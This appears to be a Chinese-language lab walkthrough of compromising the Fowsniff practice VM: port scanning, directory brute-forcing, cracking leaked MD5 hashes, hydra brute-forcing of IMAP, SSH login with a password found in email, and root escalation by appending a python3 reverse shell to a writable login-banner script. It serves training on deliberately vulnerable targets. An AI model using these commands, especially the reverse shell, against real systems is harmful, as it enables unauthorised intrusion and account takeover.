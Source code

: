 > 原文链接: https://www.anquanke.com//post/id/164639 


# 渗透测试实战-Fowsniff靶机入侵+HTB(hackthebox)入坑


                                阅读量   
                                **424009**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">17</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p1.ssl.qhimg.com/t017e9184f513b589d4.jpg)](https://p1.ssl.qhimg.com/t017e9184f513b589d4.jpg)



## 前言

大家好，爱写靶机入侵文章的我又来了！本次靶机为Fowsniff，因为不是很难内容不多，但是有些情况肯定在真实的攻击环境中还是有可能碰到和利用的，但是为了小弟还是在文章后面小弟加入了国外的一个在线靶机入侵测试平台的基础入坑第一篇。



## 靶机安装/下载

Fowsniff靶机下载：[https://pan.baidu.com/s/1dvCJijStPYkeGtoSaLyg7A](https://pan.baidu.com/s/1dvCJijStPYkeGtoSaLyg7A)

靶机IP: 172.16.24.55

攻击者ip：172.16.24.38

[![](https://p5.ssl.qhimg.com/t0109c7b9bb6bd5de8e.png)](https://p5.ssl.qhimg.com/t0109c7b9bb6bd5de8e.png)



## 实战

#### <a name="Fowsniff%E9%9D%B6%E6%9C%BA%E5%85%A5%E4%BE%B5"></a>Fowsniff靶机入侵

第一步老规矩探测ip：

[![](https://p2.ssl.qhimg.com/t0144a07d0a9bb54132.png)](https://p2.ssl.qhimg.com/t0144a07d0a9bb54132.png)

（这里有小伙伴要问了，为什么我有些靶机探测不到ip呢？其实大家可以通过另外一种方法，如：直接用nmap探测网段的80端口、22端口，这样会发现有些如arp-scan等一些工具无法探测出靶机IP的问题）

下一步自然就是端口扫描了，小弟这里还是使用nmap神器完成：

[![](https://p3.ssl.qhimg.com/t013e51d972f7289dee.png)](https://p3.ssl.qhimg.com/t013e51d972f7289dee.png)

通过扫描可以看到该靶机开放了4个端口，除了80、22端口，还有一个pop3和imap端口，如果有小伙伴看过小弟前面几篇文章的话，您肯定知道，pop3是什么东西干嘛用的。

下一步我们还是一样，查看80端口，看能不能突破，如图：

[![](https://p0.ssl.qhimg.com/t01251d683058b5d473.png)](https://p0.ssl.qhimg.com/t01251d683058b5d473.png)

可以看到首页上还是比较干净的，那么我们还是继续使用目录猜解工具跑一下目录看看，这里您可以使用dirb啊、御剑啊等等，小弟这里使用 gobuster 来完成这个工作，

命令：gobuster -u [http://172.16.24.55](http://172.16.24.55) -s 200,301,302 -w /Users/d3ckx1/Desktop/wordlists/directory-list-2.3-my.txt -t 35

（命令介绍：-u 是目标IP/域名；-s 是http返回值；-w 是目录字典 -t 是线程）

[![](https://p2.ssl.qhimg.com/t01addf1bfc16a837c0.png)](https://p2.ssl.qhimg.com/t01addf1bfc16a837c0.png)

通过目录猜解可以看到没有出现可疑的目录，那么根据这些靶机的尿性，突破口肯定是在首页或者其他页面，我们把目光放在首页上

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t017ab3bf208bbfea7e.png)

通过首页上的接受，说明网站被人搞了，[@fowsniffcorp](https://github.com/fowsniffcorp)的信息肯定被攻击者泄漏放在互联网上了，这时候不用怀疑是时候表演表演真正的谷歌技术了，

1.打开谷歌

2.输入 [@fowsniffcorp](https://github.com/fowsniffcorp) 回车

就出现了这个网站：[https://pastebin.com/NrAqVeeX](https://pastebin.com/NrAqVeeX)

[![](https://p0.ssl.qhimg.com/t01d0adcf7e8fe80595.png)](https://p0.ssl.qhimg.com/t01d0adcf7e8fe80595.png)

在这个泄漏的信息里我们拿到一些账户和加密的密码

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01d5bdffc8de6ecc75.png)

下一步我们需要把这些md5的密文解密并跟账户分开保存，方便后面的破解工作，批量md5密文解密小弟用了somd5的平台，地址：

[https://www.somd5.com/batch.html](https://www.somd5.com/batch.html)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01550d1577ffd5c703.png)

可以看到只有一个密文无法解密，但是不影响我们继续下一步工作，这个时候我们把目标放在imap服务上，我们先探测一下看看这个服务，小弟这里使用msf来，您也可以在前面探测的时候直接加上nmap的 script模块

[![](https://p5.ssl.qhimg.com/t013606d0192e756664.png)](https://p5.ssl.qhimg.com/t013606d0192e756664.png)

可以看到这个服务是正常使用的，下一步我们就是使用刚刚获取到的账户密码破解试试，这里小弟还是继续使用hydra来完成，您也可以使用其他工具，命令如下：<br>
hydra -L /Users/d3ckx1/Desktop/imap-user.txt -P /Users/d3ckx1/Desktop/mailcall-pass.txt imap://172.16.24.55

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t017cb2be55080299f0.png)

成功破解出密码：seina ：scoobydoo2，

下一步我们试着登陆看看，到了这里有小伙伴就要问了，这个服务这么登陆呢？这里你可以使用命令行来登陆，也可以使用foxmail来登陆，小弟这里使用foxmail来登陆，配置如下：

1.设置-新建

[![](https://p5.ssl.qhimg.com/t01258aeb61bdd3561a.png)](https://p5.ssl.qhimg.com/t01258aeb61bdd3561a.png)

2.接收服务器类型-选择“imap”

3.2个服务器都写你的靶机ip

[![](https://p5.ssl.qhimg.com/t01c1a062a2a763c0d2.png)](https://p5.ssl.qhimg.com/t01c1a062a2a763c0d2.png)

配置好以后，收到了2个邮件，其中在一个邮件里收到了一个密码，如图：

[![](https://p1.ssl.qhimg.com/t014cc266e748fe3363.png)](https://p1.ssl.qhimg.com/t014cc266e748fe3363.png)

密码为：S1ck3nBluff+secureshell

下面我们使用这个密码去登陆 “baksteen”账户，为什么是他呢？因为第二封邮件他回复了。。。。

[![](https://p0.ssl.qhimg.com/t014661003cd073d99a.png)](https://p0.ssl.qhimg.com/t014661003cd073d99a.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0178b097235ef03ab8.png)

成功登陆了，下一步就是提权了，老规矩我们在/tmp目录下上传2个提权脚本，如图：

[![](https://p0.ssl.qhimg.com/t010ab84520fa71f07a.png)](https://p0.ssl.qhimg.com/t010ab84520fa71f07a.png)

这里说一下，可千万别忽略和小看提权脚本哦，你可能能在这里找到突破口。

[![](https://p5.ssl.qhimg.com/t016ea589fc171325c9.png)](https://p5.ssl.qhimg.com/t016ea589fc171325c9.png)

在运行“linuxprivchecker.py”的时候可以看到靶机只安装了python3，

通过另外一个脚本，没发现什么突破口，

[![](https://p1.ssl.qhimg.com/t015fd2a2161c470ff7.png)](https://p1.ssl.qhimg.com/t015fd2a2161c470ff7.png)

到了这里小弟被卡了一段时间，最后小弟因为下班回家，又重新登陆了一下这个ssh，看到登陆的banner引起了我的警觉… 这尼玛肯定又问题，使用我在用户目录下面查看，如图：

[![](https://p3.ssl.qhimg.com/t011672cf97804be865.png)](https://p3.ssl.qhimg.com/t011672cf97804be865.png)

[![](https://p1.ssl.qhimg.com/t012bf06d2ddc41408f.png)](https://p1.ssl.qhimg.com/t012bf06d2ddc41408f.png)

.viminfo文件

[![](https://p4.ssl.qhimg.com/t01c8eb01a42b63ba52.png)](https://p4.ssl.qhimg.com/t01c8eb01a42b63ba52.png)

发现可以文件 /opt/cube/cube.sh

我们切换目录下查看一下，这个文件权限如何

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t017e679bd1da37d791.png)

下面就是修改这个文件，

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t014c1bca81037713d8.png)

我们在后面加上我们的反弹shell，

这里的shellcode为：python3 -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“你的ip”,6666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/bash”,”-i”]);’

（注：这里可以通过前面已经知道该靶机只有安装python3，故前面是 python3.）

保存！然后我们在本机运行nc来监听接收6666端口流量

[![](https://p2.ssl.qhimg.com/t01b73a3e00d71fc483.png)](https://p2.ssl.qhimg.com/t01b73a3e00d71fc483.png)

到了这里就比较重要了，这里需要另外开一个命令行，重新去登陆刚刚“baksteen”ssh账户，如图：

[![](https://p1.ssl.qhimg.com/t01d30715de8eb8d4bf.png)](https://p1.ssl.qhimg.com/t01d30715de8eb8d4bf.png)

在这里输入刚刚邮箱里的ssh密码后，我们就马上得到了一个root_shell

[![](https://p1.ssl.qhimg.com/t01fb6f409e553f1dfd.png)](https://p1.ssl.qhimg.com/t01fb6f409e553f1dfd.png)

最后拿flag

[![](https://p2.ssl.qhimg.com/t01096bd36713519ad5.png)](https://p2.ssl.qhimg.com/t01096bd36713519ad5.png)

本靶机完！！<a name="HTB(hackthebox)%E5%85%A5%E5%9D%91"></a>



## 结语

通过这篇文章，可以发现有很多场景再平时正常入侵/渗透中还是可以碰到的，如前面第一篇靶机测试中，针对该目标的google的信息搜集工作，在提权时，出现的一个大大的banner，我相信正式环境中也是有的，小伙伴们以后也可以通过查看这个文件是否有权限来写入shellcode来完成提权，在第二篇文章中，可以查看js文件，不一定会有收获哦！
